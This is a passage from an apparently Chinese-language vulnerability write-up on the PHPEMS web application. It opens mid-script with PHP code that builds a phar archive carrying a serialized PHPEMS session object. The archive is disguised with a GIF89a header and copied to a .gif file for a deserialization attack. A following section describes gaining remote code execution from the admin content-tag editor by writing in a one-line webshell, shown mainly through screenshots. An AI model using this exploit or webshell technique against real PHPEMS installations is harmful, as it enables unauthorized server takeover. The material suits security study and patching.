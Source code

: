 ```plain
    {  
        private $linkid = 0;  
    }  
}  
namespace {  
    $o = new \PHPEMS\session();  
    $filename = '111.phar';// 后缀必须为 phar，否则程序无法运行  
    file_exists($filename) ? unlink($filename) : null;  
    $phar=new Phar($filename);  
    $phar->startBuffering();  
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");  
    $phar->setMetadata($o);  
    $phar->addFromString("foo.txt","bar");  
    $phar->stopBuffering();  
    system('copy 111.phar 111.gif');  
}  

?>
```

## 后台 RCE

内容标签编辑处 getshell  
[![](assets/1707954732-f56f27aedfb015abba8040a457a831e6.png)](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385723-1fbb4f3d-fb44-48ef-be16-65267530e3fd.png#averageHue=%23afc5ac&id=V9aZ1&originHeight=607&originWidth=1849&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
在此处写入一句话  
[![](assets/1707954732-97fb3f8760eeddc2503119aa80f8d118.png)](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385804-519ac44c-62fb-4fa1-af2e-bee5aac4d398.png#averageHue=%23282922&id=g0IRj&originHeight=647&originWidth=1661&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
